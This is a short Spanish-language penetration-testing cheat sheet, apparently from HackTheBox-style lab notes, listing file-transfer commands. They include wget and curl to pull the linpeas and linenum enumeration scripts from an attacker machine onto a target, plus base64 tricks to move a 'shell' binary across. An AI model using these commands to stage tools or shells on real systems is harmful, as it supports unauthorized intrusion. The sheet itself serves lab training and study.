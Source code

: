 ---------------
#fileTransfer
 
-------

|                                                        |                                                                         |
| ------------------------------------------------------ | ----------------------------------------------------------------------- |
| **Transferencia de archivos**                          |                                                                         |
| `python3 -m http.server 8000`                          | Iniciar un servidor web local                                           |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Descargue un archivo en el servidor remoto desde nuestra máquina local  |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transfiera un archivo al servidor remoto con (requiere acceso SSH)`scp` |
| `base64 shell -w 0`                                    | Convertir un archivo a `base64`                                         |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convertir un archivo de nuevo a su origen`base64`                       |
| `md5sum shell`                                         |                                                                         |